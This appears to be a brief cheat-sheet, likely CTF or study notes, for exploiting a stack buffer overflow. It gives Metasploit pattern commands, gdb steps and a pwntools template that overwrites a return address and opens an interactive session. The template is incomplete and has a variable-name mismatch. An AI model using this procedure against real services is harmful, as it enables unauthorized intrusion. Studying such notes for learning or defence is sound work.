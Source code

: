 ### finding offset
> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000

> gdb -q <binary>
    > provide patter created ^

> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <offset>

### finding place to jump towards
> gdb -q <binary>
    > disassemble <reg_address: 0x..>

### exploit code
from pwn import *
socket=remote('<ip>', <port>)
exploit='A'*offset+<reg_location_to_jump_towards>
sock.sendline(exploit)
sock.interactive()